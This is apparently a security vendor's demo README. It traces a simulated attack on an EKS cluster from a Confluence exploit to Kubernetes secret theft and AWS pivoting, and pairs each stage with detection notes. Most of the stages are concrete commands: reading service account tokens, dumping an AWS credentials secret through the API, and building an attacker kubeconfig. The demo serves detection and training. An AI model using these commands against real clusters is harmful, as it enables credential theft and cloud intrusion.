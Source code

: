 ## 🛠️ Orca Security EKS Attack Detection Demo

### 🔥 Scenario Summary:

We simulate a multi-stage cloud attack starting from a vulnerable Confluence Server (**CVE-2023-22515**) running in EKS. The attacker exploits the vulnerability to get a reverse-shell in the pod, uses a misconfigured service account to gain cluster-admin access, pivots to a GitLab Runner pod (configured with AWS credentials), and then uses those credentials to interact with AWS (e.g., S3 access, Crypto miner...).

---

## 🧪 Attacker Flow (Full Kill Chain)

### ✅ Stage 1: Initial Access via Confluence Exploit

- Attacker exploits CVE-2023-22515 (auth bypass + RCE) in Confluence-Server 8.5.0
- Gets shell inside the `confluence` pod

---
### 🛡️ Orca Detection:

Vulnerability Alert: Orca detects CVE-2023-22515 as a critical vulnerability.

Workload Exposure: The Confluence pod is exposed externally — Orca highlights the exposure and potential exploit path.

Malicious Process Behavior: If the attacker spawns an interactive shell, Orca detects anomalous process execution.

---

### ✅ Stage 2: Internal Kubernetes API Access via Service Account Token

Once inside the pod, the attacker extracts the Kubernetes ServiceAccount credentials:

```bash
cat /var/run/secrets/kubernetes.io/serviceaccount/token > sa.token
cat /var/run/secrets/kubernetes.io/serviceaccount/ca.crt > ca.crt
cat /var/run/secrets/kubernetes.io/serviceaccount/namespace > namespace.txt
```

These files give the attacker:

- `sa.token`: a Bearer JWT for Kubernetes API access
- `ca.crt`: the cluster’s Certificate Authority for TLS verification
- `namespace.txt`: current namespace (e.g., `confluence`)

They also extract the internal Kubernetes API server address from the env variables:

```bash
echo "https://$KUBERNETES_SERVICE_HOST:$KUBERNETES_SERVICE_PORT"
# Usually https://10.100.0.1:443
```

They can now use `curl` inside the pod to interact with the API:

```bash
curl --cacert ca.crt \
  -H "Authorization: Bearer $(cat sa.token)" \
  https://$KUBERNETES_SERVICE_HOST:$KUBERNETES_SERVICE_PORT/api
```
---
### 🛡️ Orca Detection:

Toxic Combination Alert: Orca detects that the default ServiceAccount in the confluence namespace is bound to cluster-admin.

RBAC Misconfiguration: Elevated access for a workload-exposed ServiceAccount is flagged.

Access Pattern Monitoring: Usage of the service account to query sensitive resources triggers anomaly alerts if audit logs are integrated.

---

### ✅ Stage 3: Discover GitLab Runner and Steal AWS Credentials

#### 🔍 Step 1: List All Namespaces

```bash
curl --cacert ca.crt \
  -H "Authorization: Bearer $(cat sa.token)" \
  https://$KUBERNETES_SERVICE_HOST:$KUBERNETES_SERVICE_PORT/api/v1/namespaces
```

Search output for lines like `"name":"gitlab-runner"` to find the target namespace.

#### 🔍 Step 2: List Pods in GitLab Runner Namespace

```bash
curl --cacert ca.crt \
  -H "Authorization: Bearer $(cat sa.token)" \
  https://$KUBERNETES_SERVICE_HOST:$KUBERNETES_SERVICE_PORT/api/v1/namespaces/gitlab-runner/pods
```

Search for pod names (look for `"name":"gitlab-runner-xxxxx"`).

#### 🔍 Step 3: Get Pod Environment to Identify Secrets

```bash
curl --cacert ca.crt \
  -H "Authorization: Bearer $(cat sa.token)" \
  https://$KUBERNETES_SERVICE_HOST:$KUBERNETES_SERVICE_PORT/api/v1/namespaces/gitlab-runner/pods/gitlab-runner-xxxxx
```

Look inside for `env` section. You'll see references to:

- Secret: `aws-credentials`
- Keys: `AWS_ACCESS_KEY_ID`, `AWS_SECRET_ACCESS_KEY`

#### 🔍 Step 4: Dump the Secret

```bash
curl --cacert ca.crt \
  -H "Authorization: Bearer $(cat sa.token)" \
  https://$KUBERNETES_SERVICE_HOST:$KUBERNETES_SERVICE_PORT/api/v1/namespaces/gitlab-runner/secrets/aws-credentials
```

Search for base64 values of:

- `AWS_ACCESS_KEY_ID`
- `AWS_SECRET_ACCESS_KEY`

Decode with:

```bash
echo "<base64>" | base64 -d
```

🎉 You now have AWS credentials — without ever entering the GitLab pod.

---
### 🛡️ Orca Detection:

Lateral Movement Alert: Orca detects access to resources in other namespaces from a compromised SA.

Sensitive Data in Secrets: Orca flags secrets containing AWS keys as critical posture risks.

Cross-namespace Secret Access: Unusual access patterns between unrelated workloads trigger risk indicators.

---

### ✅ Stage 4: Cloud Pivot with Stolen AWS Credentials

On your attacker machine:

```bash
export AWS_ACCESS_KEY_ID=XXXXX
export AWS_SECRET_ACCESS_KEY=XXXXX
```

#### Get Caller Identity

```bash
aws sts get-caller-identity
```

#### List Clusters and Get EKS Endpoint

```bash
aws eks list-clusters --region us-east-1
aws eks describe-cluster --name orca-eks-demo --region us-east-1 --query "cluster.endpoint" --output text
```

Now you can generate a valid kubeconfig with the original Confluence service account token and the external EKS API URL.

---
### 🛡️ Orca Detection:

CloudTrail Anomalies: Orca detects AWS credentials being used in abnormal patterns, geographies, or service contexts.

Credential Misuse Detection: The GitLab role is used in unexpected ways, triggering alerts.

Sensitive Asset Access: Orca alerts on S3 reads or IAM actions from compromised identities.

Correlation Across Layers: Orca correlates the use of Kubernetes credentials with subsequent AWS abuse for a unified incident timeline.

---

### ✅ Bonus: Reconfigure `kubectl` on Attacker Machine with Stolen Token

If attacker cannot install `kubectl` inside the Confluence pod, they can copy the token, CA cert, and API server info, then use this script on their own system:

#### `generate_kubeconfig.sh`

```bash
#!/bin/bash

# Usage: ./generate_kubeconfig.sh <path-to-sa.token> <path-to-ca.crt> <EKS_CLUSTER_ENDPOINT>
if [ "$#" -ne 3 ]; then
  echo "Usage: $0 <path-to-sa.token> <path-to-ca.crt> <EKS_CLUSTER_ENDPOINT>"
  exit 1
fi

SA_TOKEN=$(cat "$1" | tr -d '\n')
CA_CERT=$(base64 -w0 "$2")
CLUSTER_ENDPOINT="$3"

cat <<EOF > attacker-kubeconfig.yaml
apiVersion: v1
kind: Config
clusters:
- cluster:
    certificate-authority-data: $CA_CERT
    server: $CLUSTER_ENDPOINT
  name: eks-orca-demo
contexts:
- context:
    cluster: eks-orca-demo
    namespace: confluence
    user: attacker
  name: attacker-context
current-context: attacker-context
users:
- name: attacker
  user:
    token: $SA_TOKEN
EOF

echo "✅ Kubeconfig written to attacker-kubeconfig.yaml"
```

Then use it:

```bash
kubectl --kubeconfig attacker-kubeconfig.yaml get pods -A
```
